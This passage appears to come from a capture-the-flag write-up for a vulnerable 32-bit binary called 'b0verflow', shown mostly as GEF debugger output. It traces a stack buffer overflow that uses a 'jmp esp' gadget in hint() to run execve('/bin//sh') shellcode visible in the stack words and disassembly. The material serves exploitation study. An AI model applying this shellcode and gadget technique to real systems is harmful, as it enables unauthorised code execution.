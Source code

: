 ```
[#2] 0x8048504 → hint()
────────────────────────────────────────────────────────────────────────────────
gef➤  p $esp
$2 = (void *) 0xffa29728
gef➤  x/w 0xffa29728
0xffa29728:    0x8048504
gef➤  x/2i 0x8048504
=> 0x8048504 <hint+7>:    jmp    esp
   0x8048506 <hint+9>:    ret
```

We can see that `esp` points to our `jump esp` gadget at the start of our input.  

```
0x08048504 in hint ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0x1       
$ebx   : 0x0       
$ecx   : 0xf7f2b010  →  0x00000000
$edx   : 0x0       
$esp   : 0xffa2972c  →  0x6850c031
$ebp   : 0xffa2974c  →  0x31313131 ("1111"?)
$esi   : 0xf7f29000  →  0x001dbd6c
$edi   : 0xf7f29000  →  0x001dbd6c
$eip   : 0x08048504  →  <hint+7> jmp esp
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
───────────────────────────────────────────────────────────────────── stack ────
0xffa2972c│+0x0000: 0x6850c031     ← $esp
0xffa29730│+0x0004: 0x68732f2f
0xffa29734│+0x0008: 0x69622f68
0xffa29738│+0x000c: 0x50e3896e
0xffa2973c│+0x0010: 0xb0e18953
0xffa29740│+0x0014: 0x3180cd0b
0xffa29744│+0x0018: 0x31313131
0xffa29748│+0x001c: 0x31313131
─────────────────────────────────────────────────────────────── code:x86:32 ────
    0x80484fe <hint+1>         mov    ebp, esp
    0x8048500 <hint+3>         sub    esp, 0x24
    0x8048503 <hint+6>         ret    
 →  0x8048504 <hint+7>         jmp    esp
    0x8048506 <hint+9>         ret    
    0x8048507 <hint+10>        mov    eax, 0x1
    0x804850c <hint+15>        pop    ebp
    0x804850d <hint+16>        ret    
    0x804850e <main+0>         push   ebp
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "b0verflow", stopped, reason: SINGLE STEP
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x8048504 → hint()
[#1] 0x8048504 → hint()
────────────────────────────────────────────────────────────────────────────────
gef➤  p $esp
$4 = (void *) 0xffa2972c
gef➤  x/10i 0xffa2972c
   0xffa2972c:    xor    eax,eax
   0xffa2972e:    push   eax
   0xffa2972f:    push   0x68732f2f
   0xffa29734:    push   0x6e69622f
   0xffa29739:    mov    ebx,esp
   0xffa2973b:    push   eax
   0xffa2973c:    push   ebx
```